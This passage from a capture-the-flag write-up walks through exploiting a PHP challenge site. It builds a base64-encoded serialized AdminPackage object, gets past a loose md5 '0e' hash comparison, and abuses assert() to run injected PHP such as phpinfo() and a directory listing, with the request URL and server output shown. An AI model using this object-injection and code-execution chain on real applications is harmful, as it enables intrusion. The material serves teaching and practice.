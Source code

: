 OK, now third part, we need to exploit the admin page. So if we use some URL like `/?p=21232f297a57a5a743894a0e4a801fc3&a=something` our parameter 'a' will get base64 decoded and unserialized. So we need to craft a payload that is an `AdminPackage` object serialized and base64 encoded. I modified the admin.php page to craft the payload as follows:
```php
?php
  class AdminPackage {

     public $password;
     public $leetness;

     function check_leetness() {
       if(md5($this->password) == '0e1337') echo '<pre> [+] Is it 1337? -> '.(assert('1337 == '.$this->leetness) ? 'Yes!' : 'Nope!').'</pre>';
     }

     function __construct($password, $leetness) {
       $this->password = $password; $this->leetness = $leetness;
     }
  }

  $pack = new AdminPackage(0, 1);
  $exploit = serialize($pack);
  echo $exploit . "\n";
  echo base64_encode($exploit) . "\n";
?>
```

We can then replace the parameters in the code and execute this using PHP to get the payload and send i to the site. When the parameter 'a' object is unserialized, PHP will automatically call the `__construct` function and assign the parameters that we need, `$password` and `$leetness`. Then the `check_leetness()` function will be executed. To go on, we need to pass the condition `if(md5($this->password) == '0e1337')` This is a known problem of PHP comparison and can be solved by finding a value that when hashed with md5 starts with 0e followed only by digits, see [4] for examples. I used the integer 240610708.

Now we can construct a payload using `AdminPackage(240610708, '1337')` to satisfy the `assert()` and submit it to the site with this URL: http://7y4b2aymlqwmkyuh.onion/?p=21232f297a57a5a743894a0e4a801fc3&a=TzoxMjoiQWRtaW5QYWNrY
WdlIjoyOntzOjg6InBhc3N3b3JkIjtpOjI0MDYxMDcwODtzOjg6ImxlZXRuZXNzIjtzOjQ6IjEzMzciO30=

In the bottom of the HTTP response we get this to prove that it worked:
```
<pre> [+] Is it 1337? -> Yes!</pre>
```

We must now find a way to exploit the `assert()`. Again, some literature helps, see [5]. So `alert()` is like `eval()`, that means we can use some PHP function. I tested with `AdminPackage(240610708, 'phpinfo()')` and it worked. So we have PHP code execution, let's do some file listing until we can list the home directory of pengu using `AdminPackage(240610708, 'var_dump(scandir("/home/pengu/"))')` we get:
```html
[CUT by TROLLI101]
<small>/www/21232f297a57a5a743894a0e4a801fc3.php(10) : assert code:1:</small>
<b>array</b> <i>(size=3)</i>
  0 <font color='#888a85'>=&gt;</font> <small>string</small> <font color='#cc0000'>'.'</font> <i>(length=1)</i>
  1 <font color='#888a85'>=&gt;</font> <small>string</small> <font color='#cc0000'>'..'</font> <i>(length=2)</i>
  2 <font color='#888a85'>=&gt;</font> <small>string</small> <font color='#cc0000'>'7b66a8f1be1f9cff0a19aaf28d0e0396'</font> <i>(length=32)</i>
</pre><pre> [+] Is it 1337? -> Nope!</pre>
[CUT BY TROLLI101]
```
